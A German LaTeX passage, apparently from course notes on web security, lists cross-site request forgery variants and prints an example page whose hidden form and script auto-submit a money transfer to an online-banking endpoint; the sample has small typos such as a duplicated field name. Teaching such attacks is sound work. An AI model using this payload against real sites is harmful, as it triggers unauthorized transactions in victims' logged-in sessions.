 \subsection{Varianten}
\begin{itemize}
	\item Inside Out Factory Reset
	\item Umkonfigurieren von DNS Einstellungen beim Router (Default Passwort muss bekannt und nicht geändert worden sein)
	\item XSRF über GET: Angreifer sendet einen Link zum Kauf eines überteuerten Produkts an das Opfer. (z.B auf Ricardo) Das Opfer klickt darauf und führt den Request aus (inkl. Cookies aus einer nebenläufigen Session)
	\item XSRF über POST: Manipulierte Webseite liefert JS aus, welches z.B eine Transaktion auf der eBanking Seite veranlasst. Auch hier muss das Cookie aus einer vorhergehenden Session beim Opfer liegen.
\end{itemize}

\begin{figure}[h!]
	\centering
	\includegraphics[width=0.7\linewidth]{images/csrf}
	\caption{CSRF / XSRF über GET}
	\label{fig:csrf}
\end{figure}

\paragraph{Manupulierte Webseite mit POST Parameter} \hfill
\begin{lstlisting}
<body>
	<form action="http://ebanking.com/controller" method="POST">
		<input type="hidden" name="action" value="transfer" />
		<input type="hidden" name="accountA" value="12345"*>
		<input type="hidden" name="accountA" value="54123" />
	</form>
	<script>
		document.forms[0].submit();
	</script>
</body>
\end{lstlisting}

